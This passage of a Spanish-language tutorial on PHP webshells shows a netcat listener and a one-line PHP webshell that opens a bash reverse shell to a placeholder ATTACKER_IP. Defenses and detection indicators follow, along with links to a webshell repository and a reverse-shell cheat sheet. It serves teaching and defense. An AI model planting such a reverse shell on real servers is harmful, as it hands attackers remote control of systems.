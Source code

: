 #### ✅ Paso 4: Acceso reverso con nc

Atacante escucha:

```bash
nc -lvnp 4444
```

Luego haces que la WebShell contenga:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'"); ?>
```

---

### 🔐 5. ¿Cómo protegerte contra WebShells?

✅ **1. Validar extensiones y tipo de archivo en uploads**

✅ **2. Guardar archivos fuera del directorio web (`/uploads` ≠ `/public_html`)**

✅ **3. Deshabilitar ejecución de código en carpetas de subida** (`.htaccess`)

✅ **4. Escanear con antivirus / herramientas EDR**

✅ **5. Monitorear cambios en archivos del servidor**

✅ **6. Deshabilitar funciones peligrosas en PHP**:

```ini
disable_functions = exec,passthru,shell_exec,system
```

✅ **7. Usar WAF (Firewall de Aplicación Web)** para detectar WebShells

---

### 🛡️ 6. Detección de WebShells

- 🚨 Cambios sospechosos en `/var/www/html/`
- 🚨 Archivos `.php`, `.jsp`, `.aspx` inesperados
- 🚨 Tráfico saliente anormal (indicador de reverse shell)
- 🚨 Comandos ejecutados por el usuario web (`www-data`, `apache`, etc.)
- 🚨 Presencia de palabras como `cmd`, `eval`, `exec`, `base64_decode`, `system`, etc.

---

### 📚 7. Recursos útiles

- [https://github.com/tennc/webshell](https://github.com/tennc/webshell) (repositorio de cientos de WebShells)
- [Pentestmonkey Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [OWASP Testing Guide - File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

---

